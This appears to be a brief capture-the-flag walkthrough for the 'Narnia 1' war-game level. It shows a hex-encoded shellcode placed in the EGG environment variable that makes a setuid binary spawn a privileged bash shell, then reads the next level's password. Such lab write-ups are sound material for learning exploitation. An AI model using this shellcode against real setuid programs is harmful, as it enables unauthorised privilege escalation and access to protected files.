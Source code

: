 # Narnia 1

```
narnia1@narnia:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG
```

We need a shellcode in the EGG env variable. After a few attempts I found one that worked

```
narnia1@narnia:/narnia$ export EGG=$(python -c 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
bash-4.4$ whoami
narnia2
bash-4.4$ cat /etc/narnia_pass/narnia2
nairiepecu
```
